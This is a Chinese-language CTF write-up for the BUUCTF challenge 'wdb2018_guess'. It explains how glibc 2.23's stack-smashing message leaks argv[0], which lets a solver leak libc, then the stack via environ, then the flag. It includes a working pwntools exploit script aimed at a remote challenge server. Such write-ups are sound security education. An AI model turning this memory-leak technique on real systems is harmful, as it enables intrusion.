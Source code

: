 # buu095-wdb2018_guess
这道题的解法需要使用glibc 2.23下的`__stack_chk_fail`函数。在2.23中，`__stack_chk_fail`的函数定义如下：

```c
void
__attribute__ ((noreturn)) internal_function
__fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
		    msg, __libc_argv[0] ?: "<unknown>");
}
libc_hidden_def (__fortify_fail)
```

这是函数`__stack_chk_fail`直接调用的函数，可以看到这里会打印出`argv[0]`的内容，这个值在调试过程中会保存到r13寄存器的位置。且一般在栈的顶部位置。这个地址与我们通过gets写入字符串的地址的偏移是固定的，因此第一次我们可以通过将这个值修改为got表地址，来获取到libc的加载地址；第二次我们将其修改为`environ`变量的值，这个变量位于libc中，保存着栈地址；在获取了栈地址之后，第三次我们就可以将其修改为flag的内容，然后就可以输出了。

```python
from pwn import *
context.log_level = 'debug'

# io = process('./GUESS')
io = remote('node4.buuoj.cn', 28148)
elf = ELF('./GUESS')
libc = ELF('./libc.so.6')


io.sendlineafter(b'Please type your guessing flag\n', cyclic(0x128) + p64(elf.got['puts']))
io.recvuntil(b'*** stack smashing detected ***: ')
puts = u64(io.recv(6) + b'\x00\x00')
base = puts - libc.symbols['puts']
log.info('libc base: ' + hex(base))
environ = base + libc.symbols['environ']
log.info('environ: ' + hex(environ))

io.sendlineafter(b'Please type your guessing flag\n', cyclic(0x128) + p64(environ))
io.recvuntil(b'*** stack smashing detected ***: ')
stack_addr = u64(io.recv(6) + b'\x00\x00')
flag_addr = stack_addr - 0x168
log.info('stack address: ' + hex(stack_addr))

io.sendlineafter(b'Please type your guessing flag\n', cyclic(0x128) + p64(flag_addr))

io.interactive()
```

# buu096-gyctf_2020_some_thing_exceting
这道题做的时候大意了，做着做着给flag已经被读到内存这件事给忘了……
